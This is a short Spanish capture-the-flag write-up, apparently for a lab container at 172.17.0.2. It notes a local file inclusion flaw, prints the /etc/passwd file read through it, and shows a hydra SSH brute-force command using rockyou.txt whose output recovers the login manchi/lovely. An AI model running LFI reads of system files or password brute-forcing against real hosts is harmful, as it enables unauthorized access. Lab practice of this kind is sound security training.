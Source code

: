 ```bash

```

Vemos que es vulnerable a un **LFI**.

Al apuntar al **/etc/passwd**, podemos sacar dos usuarios interesantes(**seller** y **machi**) :

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
seller:x:1000:1000:seller,,,:/home/seller:/bin/bash
manchi:x:1001:1001:manchi,,,:/home/manchi:/bin/bash
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
```

Usamos **hydra** para intentar sacar la contraseña:

   ```bash
hydra -l manchi -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-17 09:00:06
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: manchi   password: lovely
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 23 final worker threads did not complete until end.
[ERROR] 23 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-17 09:00:19

```
**usuario : manchi**
**contraseña: lovely**
